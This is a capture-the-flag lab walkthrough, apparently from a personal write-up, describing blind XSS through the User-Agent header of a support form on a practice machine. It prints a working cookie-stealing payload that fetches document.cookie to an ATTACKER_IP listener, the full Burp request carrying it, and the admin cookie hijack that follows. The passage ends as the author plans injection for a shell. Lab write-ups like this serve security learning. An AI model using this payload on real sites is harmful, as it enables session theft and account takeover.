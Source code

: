 I decided to open Burp Suite and try again but with the proxy enabled to see if i could find any more information.

Capture the request, sent it to repeater, now here we can start testing the different headers and find which one is vulnerable.
We also know that if the request get succesfully sent we get no feedback message, so to verify it we have to find a way to make it communicate with us.

We can achieve it by creating a simple server with python on our machine and craft a script to call for that server.
```bash
python3 -m http.server 8001
```

After other tests i was always getting the message "hacking detected" even encoding my payload in the message, so i started trying to inject it in other fields and found that the user-agent one was vulnerable.

Now we need to craft the payload and exploit the XSS vulerability, this means that when the message is received and viewed it will trigger our code.
I have chosen this one  because it will try to load an image from the source x which doesn't exists, than `onerror` tells what to do if an error occurs, and is to go and fetch something from our own webserver, and espose the admin cookie value.

```html
<img src=x onerror=fetch('http://ATTACKER_IP:8001/?c='+document.cookie);>
```

This is the full burp request i have sent:
```
POST /support HTTP/1.1
Host: MACHINE-IP:5000
Content-Length: 138
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://MACHINE-IP:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: <img src=x onerror=fetch('http://ATTACKER_IP:8001/?c='+document.cookie);>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://MACHINE-IP:5000/support
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Connection: close

fname=test&lname=test&email=test%40test&phone=123456789&message=<img src=x onerror=fetch('http://ATTACKER_IP:8001/?c='+document.cookie);>
```
Press send and after about a minute we should get on our terminal the Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

Now we can finally access the dashboard, navigate again to that page, open the dev tools and change the cookie value with the one we just got, than reload the page.

Let's start again the Burp proxy and try to click on the "Generate Report" button to capture the request.
At first sight seems nothing useful, even forwarding the request we do not get any interesting info or exposed data, this made me think that probably we have to inject code again, and as this time we have admins rights maybe we can get a shell.
